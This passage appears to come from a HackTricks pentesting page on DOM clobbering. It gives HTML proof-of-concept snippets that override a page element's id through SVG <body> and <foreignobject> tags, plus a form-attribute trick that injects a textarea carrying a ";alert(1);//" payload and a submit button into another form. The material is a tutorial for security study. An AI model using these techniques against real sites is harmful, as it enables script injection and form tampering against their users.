 We looked at SVG too and it's possible to use the `<body>` tag there:

```html
<div style=display:none id=cdnDomain>example.com</div>
<svg><body id=cdnDomain>clobbered</body></svg>
<script>
alert(document.getElementById('cdnDomain').innerText)//clobbered
</script>
```

You need a `<foreignobject>` tag in order to use the HTML tag inside SVG on both Chrome and Firefox:

```html
<div style=display:none id=cdnDomain>example.com</div>
<svg>
<foreignobject>
<html id=cdnDomain>clobbered</html>
</foreignobject>
</svg>
<script>
alert(document.getElementById('cdnDomain').innerText)//clobbered
</script>
```

## Clobbering Forms

It's possible to add **new entries inside a form** just by **specifying the `form` attribute** inside some tags. You can use this to **add new values inside a form** and to even add a new **button** to **send it** (clickjacking or abusing some `.click()` JS code):

{% code overflow="wrap" %}
```html
<!--Add a new attribute and a new button to send-->
<textarea form=id-other-form name=info>
";alert(1);//
</textarea>
<button form=id-other-form type="submit" formaction="/edit" formmethod="post">
Click to send!
</button>
```
{% endcode %}

* For more form attributes in [**button check this**](https://www.w3schools.com/tags/tag\_button.asp)**.**

## References

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
* Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker.

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
